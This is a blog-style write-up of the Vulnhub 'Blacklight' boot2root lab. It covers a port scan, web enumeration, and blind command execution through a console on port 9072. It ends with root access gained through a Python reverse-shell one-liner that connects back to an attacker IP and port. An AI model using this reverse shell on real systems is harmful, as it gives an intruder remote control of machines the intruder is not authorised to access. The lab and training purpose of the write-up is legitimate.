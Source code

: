 ```yaml
---
layout: post
title:	"Blacklight Writeup"
date:	2018-07-22 03:00:00
categories:
    - writeups
tags:
    - ctf
    - boot2root
    - vulnhub
---
```

<head>
	<title> Blacklight Writup | Vulnhub </title>
</head>
<title> Blacklight Writeup </title>
![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/logo.png)

## i. Port Scan

Full TCP port scan using unicornscan:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/port.png)

~~~
$ unicornscan -Iv -r 160 -mT IP:a

-Iv = Immediately display results as they are found (-v = verbose)
-r = rate of packets to send per second
-mT = mode TCP
IP = host's ip
a = all (Scan 65535 ports)
~~~

<center> `Ports 80 and 9072 are open` </center>

## ii. Enumeration

Starting with port 80, we browse to the host.

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/http.png)

We got a hint, `The web is the way`.

Running a directory search to see if we can find any hidden files or directories:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/dirsearch.png)

`robots.txt` seems to stand out.

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/robots.png)

Inside, we find flag1.txt and what seems to be a dictionary file.

Navigating to flag1.txt:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/flag1.png)

Perfect, flag #1 captured.

The next hint is:
~~~
9072. The secret is at home.
~~~

Could this be referring to port 9072 that we found open in the port scan?

Connecting to port 9072 using netcat:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/console.png)

It seems that we are able to execute a few commands.

Running .readhash:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/hash.png)

Could this hash be related to the wordlist we found earlier?

Attempting to crack the hash using hashcat with the blacklight dictionary:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/cracker.png)

Looks like the hash can't be cracked... let's move on to the next command in the console.

.exec seems like it allows us to execute commands. Let's try a basic command to see if it is executed.

`Note: Once you issue two commands to the server (including .readhash), port 9072 will close and you will have to restart the virtual machine.`

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/exec2.png)

Seems like the command is not executed, (or maybe it is?), but we cannot see the output.

To test our theory for blind command execution, we can host a web server and execute wget in the console to see if any connections are made:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/exec.png)

Perfect, it looks like the box is making a connection to our host.

Which means that the box is executing commands, but we don't see the output (therefore it is called blind).

## iii. Reverse Shell

Since we know that the box is able to execute commands, let's try a reverse shell.

Python One Liner:
~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

source: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
~~~

Make sure to update the command with your IP Address & Listening Port.

Using Port 443 is more reliable, just in case the host has some sort of firewall setup that is blocking outbound connections on unknown ports.

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/revshellpart1.png)

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/revshellpart2.png)

After executing the command, we got a reverse shell.

We are able to use this python one-liner to spawn a TTY shell.

~~~
python -c 'import pty;pty.spawn("/bin/bash")'
~~~

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/pty.png)

`Looks like we are root already!`

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/root.png)

# IV. Conclusion

Blacklight was fun & easy. The hash rabbit hole drove me crazy for a few hours, while I tried cracking with wordlists such as rockyou, or trying to use the blacklight wordlist with rules.

Apart from that, I felt that the privilege escalation was a little incomplete, as we were elevated to root immediately.

Apart from that, I enjoyed the box.

Find the box on Vulnhub: https://www.vulnhub.com/entry/blacklight-1,242/

~~~
Sources / Links:

[0]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[1]: https://www.vulnhub.com/entry/blacklight-1,242/
~~~


